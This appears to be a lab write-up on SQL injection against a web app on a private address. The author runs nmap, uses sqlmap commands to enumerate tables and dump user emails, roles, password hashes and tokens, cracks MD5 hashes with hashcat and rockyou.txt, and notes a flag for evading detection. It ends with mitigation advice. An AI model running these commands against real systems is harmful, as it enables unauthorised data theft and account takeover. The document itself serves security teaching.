

## What Is SQL Injection?

SQL Injection (SQLi) is a type of code injection attack where an attacker manipulates SQL queries by inserting malicious SQL statements into input fields such as login forms or search bars. If the application doesn’t properly validate user input, it may unintentionally execute these malicious commands.

## Types of SQL Injections  

1. **Union-Based SQL Injection**  
   Extracts data by merging malicious queries with the application’s normal output.  

2. **Error-Based SQL Injection**  
   Uses database error messages to reveal information such as table or column names.  

3. **Boolean-Based Blind SQL Injection**  
   Determines information by sending queries that result in true or false outcomes.  

4. **Time-Based Blind SQL Injection**  
   Infers data by measuring how long the database takes to respond to certain queries.  

Scanning the Target 

## Nmap Scan  

To begin the assessment, I performed an Nmap scan on the target host to identify open ports and running services.  

```bash
nmap -sV 10.6.6.12
```
<p align="center">
  
</p>

The scan revealed that port 3000 is open and running a Node.js Express framework web service. This provided the first indication of where to focus further testing, as web applications are often prime targets for SQL injection attacks.

## SQLMap Exploitation  

After identifying the exposed web service on port 3000, the next step was to test the application for SQL injection vulnerabilities. For this, I used **SQLMap**, an automated tool for detecting and exploiting SQL injection flaws.  

The command 

```bash
sqlmap -u "http://10.6.6.12:3000/rest/products/search?q=test" --dbs --level=5 --risk=3 --random-agent
```


SQLMap confirmed that the backend database is **SQLite** and that the web application is running on **Express**. 

Due to SQLite limitations, it is not possible to enumerate databases directly. However, SQLMap was able to identify **injection points** and log the session for further exploration.

The tool reported:
<p align="center">
  
</p>

<p align="center">
  
</p>
### Table Enumeration

After confirming the SQL injection vulnerability, the next step was to enumerate the tables in the SQLite database. This was done using SQLMap with the following command:

```bash
sqlmap -u "http://10.6.6.12:3000/rest/products/search?q=test" --tables --level=5 --risk=3 --random-agent
```
<p align="center">
  
</p>
The --tables option lists all available tables in the database.

--level=5 and --risk=3 increase the depth and aggressiveness of testing.

--random-agent randomizes the User-Agent to reduce the chance of detection.
The output revealed 21 tables, including:
<p align="center">
  
</p>

These tables may contain sensitive data such as user accounts, payment information, and feedback, which could potentially be exploited if proper security measures are not in place.

### Checking Columns in the `Users` Table

Before extracting data, it is often useful to first check the columns present in a table. This helps to target only relevant columns and reduces unnecessary data retrieval. For the `Users` table, the following SQLMap command was used:

```bash
sqlmap -u "http://10.6.6.12:3000/rest/products/search?q=test" -T Users --columns --level=5 --risk=3 --random-agent
```
<p align="center">
 
</p>

### Extracting Sensitive User Data

After identifying the columns in the `Users` table, I focused on extracting the sensitive data necessary for security assessment. The SQLMap command used was:

```bash
sqlmap -u "http://10.6.6.12:3000/rest/products/search?q=test" -T Users -C email,role,password,deluxeToken --dump --level=5 --risk=3 --random-agent
```
-C password,deluxeToken → selects only the columns containing password hashes.

--dump → retrieves the hash data from the database.

-T Users → targets the Users table.

<p align="center">
 
</p>

## Password Cracking

After extracting the password hashes from the `Users` table, the next step is to attempt cracking them to demonstrate the potential risk of weak or reused passwords. For this, I used **Hashcat**, a popular password recovery tool, with the widely available **rockyou.txt** wordlist.

The hashes were saved in a local file (`hashes.txt`) and the following command was used to perform the cracking:

```bash
hashcat -m 0 -a 0 -O hashes.txt /usr/share/wordlists/rockyou.txt --show
```
-m 0 specifies MD5 hash mode.

-a 0 uses a straight dictionary attack.

-O enables optimized kernels for faster cracking.

--show displays only the successfully cracked hashes.

<p align="center">
 
</p>


## SQL Injection Mitigation

After demonstrating how SQL injection can expose sensitive data, it is important to understand how to defend against it. Key mitigation strategies include:

1. Parameterized Queries / Prepared Statements: Always use parameterized queries instead of concatenating user input into SQL statements. This ensures user input is treated as data, not executable code.

2. Input Validation and Sanitization: Validate input length, type, and format. Reject or sanitize any input that does not conform to expected patterns.

3. Use of ORM Frameworks: Object-Relational Mapping (ORM) frameworks abstract SQL queries and help prevent injection by default.

4. Least Privilege Database Access: Ensure the application connects with a database account that has minimal permissions required to perform its tasks.

5. Error Handling and Logging: Avoid exposing database errors to users. Use generic error messages and log detailed errors for administrative review.

6. Regular Security Testing: Periodically perform automated and manual security tests, including vulnerability scans, to catch potential SQL injection points.
